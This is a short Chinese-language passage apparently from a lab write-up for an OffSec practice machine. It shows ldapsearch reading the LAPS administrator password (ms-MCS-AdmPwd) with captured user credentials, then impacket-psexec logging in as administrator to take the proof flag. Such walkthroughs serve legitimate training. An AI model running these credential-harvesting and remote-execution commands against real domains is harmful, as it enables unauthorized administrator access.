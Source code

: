 通过使用刚刚用户认证信息ldapsearch收集到了一个新密码`,{j7-iMH!O4C5/`

````
ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -H ldap://192.168.138.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
````

![image-20250306200931444](./PG_win.assets/image-20250306200931444.png)

使用psexec连接即可

```
impacket-psexec HUTCH.OFFSEC/administrator:',{j7-iMH!O4C5/'@192.168.138.122
```

![image-20250306201452539](./PG_win.assets/image-20250306201452539.png)

拿到proof

![image-20250306201612588](./PG_win.assets/image-20250306201612588.png)
